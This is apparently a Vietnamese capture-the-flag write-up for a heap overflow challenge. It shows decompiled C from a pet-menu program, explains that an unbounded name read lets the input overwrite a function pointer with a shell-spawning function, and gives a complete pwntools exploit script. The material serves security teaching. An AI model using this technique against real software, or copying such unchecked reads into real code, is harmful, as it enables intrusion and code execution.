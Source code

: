 # Heap Overflow 2

**tiếp tục với một chall sử dụng kĩ thuật Heap Overflow**

Khi chương trình ghi một biến thực thi được lên heap, **ta cần phải chú ý biến đó vì nếu như ta có thể thay đổi biến đó thành giá trị khác theo ý muốn, ta hoàn toàn có thể điều khiển luồng thực thi của chương trình**. Với lỗi heap overflow, việc thay đổi biến đó sẽ trở nên dễ dàng hơn và ta có thể thay đổi biến đó một cách đơn giản hơn.

## ida 

```c 
__int64 add_cat()
{
  int v0; // ebx

  v0 = count;
  animal_list[v0] = malloc(0x210uLL);
  *(_QWORD *)(animal_list[count] + 0x208LL) = cat_action;
  printf("Name of your new cat: ");
  __isoc99_scanf("%s", animal_list[count]);
  getchar();
  printf("Its age: ");
  __isoc99_scanf("%d", animal_list[count] + 0x200LL);
  printf("Added new cat at index %d\n", (unsigned int)count);
  return (unsigned int)++count;
}

__int64 __fastcall animal_say(int a1)
{
  return (*(__int64 (**)(void))(animal_list[a1] + 0x208LL))();
}

int human_action()
{
  puts("Yay, I get shell!");
  return system("/bin/sh");
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+0h] [rbp-10h] BYREF
  unsigned int v5; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v4 = -1;
  v5 = -1;
  init(argc, argv, envp);
  do
  {
    menu();
    __isoc99_scanf("%d", &v4);
    getchar();
    if ( v4 == 4 )
      continue;
    if ( v4 > 4 )
    {
LABEL_17:
      puts("Invalid choice");
      continue;
    }
    switch ( v4 )
    {
      case 3:
        printf("Index: ");
        __isoc99_scanf("%d", &v5);
        if ( v5 <= 3 && animal_list[v5] )
          animal_say(v5);
        else
          puts("Invalid index");
        break;
      case 1:
        if ( count > 3 )
          goto LABEL_9;
        add_cat();
        break;
      case 2:
        if ( count > 3 )
        {
LABEL_9:
          puts("Maximum 4 pets only!");
          break;
        }
        add_dog();
        break;
      default:
        goto LABEL_17;
    }
  }
  while ( v4 != 5 );
  return 0;
}
```

**chương trình cho ta 4 option**, 1 là add_cat, 2 là add_dog , 3 là animal_say(), 4 là exit

**nhìn ngay ta thấy có lỗi HOF tại hàm add_cat** nên ta sẽ tập trung phân tích hàm này 

## khai thác

```c 
__int64 add_cat()
{
  int v0; // ebx

  v0 = count;
  animal_list[v0] = malloc(0x210uLL);
  *(_QWORD *)(animal_list[count] + 0x208LL) = cat_action;
  printf("Name of your new cat: ");
  __isoc99_scanf("%s", animal_list[count]);
  getchar();
  printf("Its age: ");
  __isoc99_scanf("%d", animal_list[count] + 0x200LL);
  printf("Added new cat at index %d\n", (unsigned int)count);
  return (unsigned int)++count;
}

__int64 __fastcall animal_say(int a1)
{
  return (*(__int64 (**)(void))(animal_list[a1] + 0x208LL))();
}
```

như ta đã thấy thì **animal_list[] là heap**

tại địa chỉ **animal_list[count] + 0x208LL** sẽ lưu địa chỉ của là **cat_action** 

tại hàm **animal_say()** thì nó sẽ thực thi địa chỉ **animal_list[count] + 0x208LL là cat_action**

đến đây rồi thì nghĩ ngay là hướng làm là ta hoàn toàn có thể **sử dụng lỗi HOF để ghi đè địa chỉ animal_list[count] + 0x208LL là cat_action thành human_action** vì nó có shell

![image](https://github.com/gookoosss/CTF/assets/128712571/3a54690e-7fe2-47b4-8433-a11b17d4fbf0)


ta tính được offset là 0x208 byte rồi, h ta ghi đè nó thành human_action thôi

```python 
payload = b'a'*0x208 + p64(exe.sym['human_action'])
p.sendlineafter(b'cat: ', payload)
p.sendlineafter(b'age: ', b'1')
```

cuối cùng ta chọn option 3 để thực thi hàm human_action và lấy shell thôi

![image](https://github.com/gookoosss/CTF/assets/128712571/ab0f5e8d-021a-4c42-b849-7e4cfccc6d0b)


## script

```python
from pwn import *

p = process('./hof2')
exe = ELF('./hof2')

gdb.attach(p, gdbscript = '''
b*0x00000000004013e5
b*0x0000000000401467
c
''')

input()

p.sendlineafter(b'> ', b'1')

payload = b'a'*0x208 + p64(exe.sym['human_action'])
p.sendlineafter(b'cat: ', payload)
p.sendlineafter(b'age: ', b'1')

p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Index: ', b'0')

p.interactive()
```
